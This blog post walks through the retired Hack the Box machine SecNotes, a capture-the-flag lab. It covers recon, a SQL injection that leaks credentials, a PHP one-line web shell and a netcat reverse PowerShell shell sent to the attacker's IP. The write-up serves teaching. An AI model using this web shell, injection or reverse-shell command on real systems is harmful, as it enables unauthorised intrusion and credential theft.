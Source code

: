 +++
author = "Nick"
categories = ["CTF", "NetSec"]
date = 2019-01-22T17:03:09Z
description = ""
draft = false
thumbnail = "/images/2019/01/info.PNG"
slug = "hack-the-box-secnotes"
summary = "Hack the Box - SecNotes machine. Lets get root!"
tags = ["CTF", "NetSec"]
title = "Hack the Box - SecNotes"

+++


Well, this will be my 11th write up for HtB, however, you aren't allowed to post a write up until a box has been retired. So I guess this is will actually be my first published write up on this site!

For those that are unfamiliar with what Hack the Box is, it's a simple capture the flag in digital space. In this case the flag is Administrative shell and credentials for users on the target machine. Let's dig in!

As always, we start by gathering info on our target with a basic nmap scan:

```bash
nmap -sC -sV -oA 10.10.10.97

That comes back with some basic things, we see port 80 and 445. We see that it's a Windows 10 machine running Enterprise build 17134. My guy reaction here is MS17-010 but that build might be too new to exploit. Lets check anyway.

```bash
ost script results:
|_clock-skew: mean: 2h40m00s, deviation: 4h37m08s, median: 0s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2018-11-22T06:21:10-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2018-11-22 09:21:12
|_  start_date: N/A

There are a few ways to check this exploit but this time, we'll just use Metasploit since it has a MS17-010 scanner module. If you aren't familiar with where it is in Metasploit you can always use the search command to find it:

```bash
search ms17_010

![](/images/2019/01/ms17_check.PNG)

Now we load up the module and give it our target data:

```bash
use auxiliary/scanner/smb/smb_ms17_010

![](/images/2019/01/ms17_check2.PNG" caption="MS17-010 scanner hasn't found anything.)

It would appear the machine is not vulnerable. No biggy, we can run ms-17-010 against is if we think this data is false, but it usually isn't. Lets keep moving, we also saw port 80 open, lets browse to it and see what it is.

![](/images/2019/01/site.PNG" caption="Some type of login it seems)

Well, it seems to direct us to a login page of some type. So we try our usual, admin / admin. Admin with 1 space and amin with 2 spaces at the end. Sometimes this works due to lazy comparisons. Nothing, well, lets try and sign up for an account. We can sign up and get logged in. It's some type of note system.

![](/images/2019/01/pafge.PNG)

Lets create a note with some html.

![](/images/2019/01/note1.PNG)

Sure enough, we see the form isn't filtering any html:

![](/images/2019/01/note2.PNG" caption="potential xss?)

Well, that could be fun, lets check out the other pages and see what can be done. When we look at the change password page source, we notice there is not any CSRF tokens or protection of any type. Lets launch Burpe Suite and see what is being posted when we fill this field out.

![](/images/2019/01/burp1.PNG" caption="Well isn't that fun...)

So we can see that it's just passing in a password change via post. If we were to forward this page link to the site admin and they read it, we could passively change the password for the admin user. The question is how do we get the admin to read the link? (more on that later).

Well that could be our best way in, before we commit to that method, lets check for any php injections. Lets go back and create a user name of Love'"!@#$%^&*()[];<>. This should let us see if anything can be broken.

![](/images/2019/01/500.PNG" caption="What do we have here?)

Well, it looks like we can break this somehow. In this case I just removed the last set of special characters from our name until I found what seemed to be broken. So I used Love'"– - nothing, Love'!– - nothing, But then I got to Love';– - and that seemed to be the ticket. So do we craft an SQL injection statement? It was at this part I began to overthink the execution. So I just went back to basics with a injection method. ' OR '1'='1. Sure enough that gave be back some data in Burpe yet a error 500 on the web interface... odd. We had gotten back three notes, a recipe, some years and credentials.

![](/images/2019/01/html_cred.PNG" caption="Credentials for a user named tyler, awesome!)

So it seems our secure notes app wasn't so secure after all. It looks like they're going to spin up a new site, awesome. The notation above shows it's an SMB share something our nmap also gave us. Lets enumerate our shares on this machine and see what we get. We can enumerate SMB shares with a tool called SMBmap.

![](/images/2019/01/smbenum.PNG" caption="We give smbmap a username and password.)

Looks like we have the normal shares and our newly found new-site share. Lets connect using smbclient.

![](/images/2019/01/smb_dir_muchbetter.PNG" caption="We give smbclient a target and a user, we are then prompted for a password.&nbsp;)

When we list the directories we see the standard IIS html and png. We can't seem to path up either. We have write access, lets try to put a file on the directory. Sure enough we can upload a file to the share. So how to we get to that site? It wasn't found at /new-site or any other iteration of that. It's not uncommon for devs to create test site locally on other ports. Lets try to scan all the ports and see what comes back.

![](/images/2019/01/nmap2.PNG)

Looks like we have something running on 8808, lets browse to it. Looks like the basic IIS start page, awesome. Lets create a basic html file and upload it and see if we can access that.

![](/images/2019/01/put.PNG)

![](/images/2019/01/test1.PNG)

Looks like it worked! Now, based on our previous nmap scans, we know that the site is running PHP. A common method of attack here is to create a PHP script to upload a vector of attack and have the IIS system run that file. So this is exactly what we'll do. The first time I ran through this attack, I was using a reverse Meterpeter payload but that seemed to keep dropping connection after ~30 seconds or so. Since that wasn't working out I decided to try the old standby of Netcat.

The first thing we need to do is download Netcat. Then we'll upload it to our new-site share. Once we've done that we'll write a quick and dirty php file to execute the commands we issue it.

![](/images/2019/01/nc64.PNG" caption="We connect via smbclient again and issue a put command.)

Now that our file is there, lets write a quick PHP one liner. PHP has a function called [passthru](https://secure.php.net/manual/en/function.passthru.php)(). This allow us to execute a command on the system. At first I wrote this with the exec() function in PHP but it didn't seem to like the arguments I was feeding it, probably has something to do with the lack of PHP knowledge I have. We create a new file called loveshell.php. In this file we will write the following:

```php
<?php passthrue($_REQUEST["run"]);?>

When we call this webpage, we can then feed it commands like this:

http://10.10.10.97/new-site/loveshell.php?run=dir

In the case above, the server will execute the 'dir' command and give us the results on the page.

![](/images/2019/01/result.PNG)

So lets upload our file to the server using smbclient again. Now before we execute anything, we need to start our Netcat listener on our machine.

![](/images/2019/01/nclisten.PNG" caption="We use the -n for ip only, the -v for verbose, the -l for listen for inbound only and the -p for our port)

Now that we're listening, lets feed our php shell a netcat command. We want netcat to start a powershell session and forward it to us. To do that we issue the following:

```bash
nc64.exe 10.10.13.37 9909 -e powershell

This create a powershell session and forwards it to our machine on port 9909. Previously I had created the session with CMD prompt but that was lacking in features. So lets drop this into our URL bar and see what we get!

![](/images/2019/01/urlsend.PNG)

![](/images/2019/01/reverse_powershell.PNG)

Once we issue the command we see our Netcat listener light up and become active! We now have a Powershell prompt. Lets go get our user credentials! We path to the desktop and sure enough, they are here. A quick more user.txt gives us what we are looking for.

![](/images/2019/01/user.PNG)

Now how do we escalate our privileges? There are a few ways of doing this but I feel like I took that path that was blatantly right in front of me. As we traversed the directories to get to Tyler's desktop we noticed a few things. The first being a directory for Distros listed under the C drive. When we path down it, we notice that there is a Ubuntu directory with Ubuntu.exe. So whats interesting about this is that this file is meant to run Ubuntu within Windows. Very much like the windows bash sub-features. Along side this on Tyler's Desktop there was a shortcut named bash.lnk. When we look at the content of that shortcut we see it's pointing to a bash.exe in System32.

![](/images/2019/01/bash.PNG" caption="bash.exe in System32? What could this be?)

Since that shortcut is linked to the System32, we should be able to call it from our powershell command prompt.

![](/images/2019/01/bash1.PNG)

Sure enough, we can. So who are we in this bash shell? Turns out we're root. Maybe we can path to Administrator now and get credentials!

![](/images/2019/01/whoami.PNG)

So we path to /mnt/c/users/Administrator and see what we can see.

![](/images/2019/01/admin1.PNG" caption="Denied!)

Nothing, we still don't seem to actually have root privileges. So lets go back to our starting point and see whats there. When we list the content of our home directory we see a directory called 'filesystem'. More importantly we see .bash_history, usually this has some breadcrumbs we can follow.

![](/images/2019/01/listing.PNG)

We list the contents of 'filesystem' but there seems to be nothing there. Lets check the contents of the .bash_history. When we do we see some admin credentials. Awesome, lets use those credentials to connect back to the system via SMB!

![](/images/2019/01/cat_bash.PNG" caption="The % after the administrator is the delimiter for the smbclient tool.)

Once again we open our smbclient and connect as administrator using the above credentials. Once we're in, we simply path to the Desktop and view our root.txt.

![](/images/2019/01/root.PNG)

There we have it. Another box down. It should be noted there are other ways to own this box. The above is just the path that I followed as I'm much more familiar with infrastructure access and pathways vs web access.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

